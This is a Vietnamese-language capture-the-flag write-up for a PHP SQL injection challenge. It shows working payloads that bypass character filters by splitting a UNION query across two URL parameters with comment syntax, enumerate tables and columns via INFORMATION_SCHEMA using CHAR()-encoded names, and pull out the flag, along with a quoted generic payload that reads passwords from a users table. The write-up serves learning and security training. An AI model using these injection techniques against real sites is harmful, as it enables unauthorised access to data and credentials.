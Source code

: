 # Sqli v1

Đầu tiên ta có source code như sau :

![image](https://user-images.githubusercontent.com/57553555/161921922-f2f34a92-a905-4135-a102-2bdb77afe507.png)

## Phân tích 
- Ta nhận 2 đầu vào `amount` và `name` =>Tham số url `?amount=10000&name=tivi`
- Nó được gán vào 2 biến và được lọc bởi hàm `preg_match` 
- `amount` lọc tất cả các chữ cái , lọc `'` và `"`
- `name` lọc tất cả các kí tự như ```" , ',| ,` ```
- Câu lệnh truy vấn với
```php
$query = "select * from products where amount=".$amount." and name=\"".$name."\"";
echo $query;
=> select * from products where amount=10000 and name="tivi" 
```

## Kiểm tra lỗi
- Đầu tiên ta test tham số amount trước do nó là số nên không cần bypass `"` => Ta test thử payload 
```url
?amount=-1|| 1=1-- -&name=tivi
```
 
![image](https://user-images.githubusercontent.com/57553555/161927184-d14873a5-3678-4c45-aece-45b6c8c70cd1.png)

=> Bài này có lỗi sqli => Nhưng ở đây có vẻ không có flag => Ta phải tìm nó ở chỗ khác rồi

- Tiếp theo ta kiểm tra thử tham số name => Ta phải tìm cách bypass `"` nhằm thoát khỏi chuỗi và thực thi câu lệnh => Ta liên tưởng đến 1 cách là dùng `\`

![image](https://user-images.githubusercontent.com/57553555/161928329-2a166f52-4abf-465b-b834-0e40aa4a79f1.png)

=> Nhưng tham số amount không có `"` rồi @@ mà nó cũng filter mất `"` có thể dùng rồi => Fail ~~~~~~

![image](https://user-images.githubusercontent.com/57553555/161931471-a3e4d7e1-ffd8-4c74-95cb-3bcddc332715.png)

`/vuln.php?id=1 union/*&sort=*/select pass from users– – ` 

- Sau 1 hồi tìm kiếm khá lâu 1 phát hiện siu to đã xuất hiện =>Từ ví dụ trên nếu tham số `id` lọc select và tham số `sort` lọc union => thì khi ta tách truy vấn ra làm 2 => 1 bỏ vào id 1 bỏ vào sort và comment lại đầu vào của tham số trên url `&sort` => ta sẽ được 1 query hoàn chỉnh mà không hề bị lọc

- Áp dụng vào bài của mình => Payload => Thành công
```url
?amount=-1/*&name=*/ or 1=1-- -
```
![image](https://user-images.githubusercontent.com/57553555/161934394-5376c895-9aeb-4b25-8d1e-b5be6e45d61a.png)

![image](https://user-images.githubusercontent.com/57553555/161934728-47c8fc84-f8df-490e-b5ca-5c6c6e325e4c.png)

- Tiếp theo đó ta tìm `database()` => Database : `sqlinjection`
```url
?amount=-1/*&name=*/ union select 1,database(),3-- -
```
![image](https://user-images.githubusercontent.com/57553555/161934904-3645b836-6421-4f8f-92c2-c99331b0b2a2.png)

- Tên table_name => Vì `'` bị lọc nên ta chuyển tên database thành mã ascii  => Table_name : `flagtableahihihoho`
```url
?amount=-1/*&name=*/%20UNION%20select%201,TABLE_NAME,TABLE_SCHEMA%20from%20INFORMATION_SCHEMA.TABLES%20where%20table_schema=CHAR(115,113,108,105,110,106,101,99,116,105,111,110)--%20-
```
![image](https://user-images.githubusercontent.com/57553555/161935680-25fc5355-3d6f-4767-8a05-f7e621d013e1.png)


- Tên column_name => Column_name : `flag`
```url
?
amount=-1/*&name=*/%20UNION%20select%201,CONCAT(COLUMN_NAME),TABLE_NAME%20from%20INFORMATION_SCHEMA.COLUMNS%20where%20table_name=CHAR(102,108,97,103,116,97,98,108,101,97,104,105,104,105,104,111,104,111)--%20-
```
![image](https://user-images.githubusercontent.com/57553555/161936184-3463d04c-d291-4e2d-a59a-e4660096d81b.png)


-Và cuối cùng là flag 
```url
?amount=11 /*&name=*/ UNION select 1,flag,3 from flagtableahihihoho-- -sqlinjection.flagtableahihihoho
```
![image](https://user-images.githubusercontent.com/57553555/161936432-814665c2-362a-40f9-98b4-2803e9b5d186.png)

=> KCSC{flag_for_testing}



# child_orange 








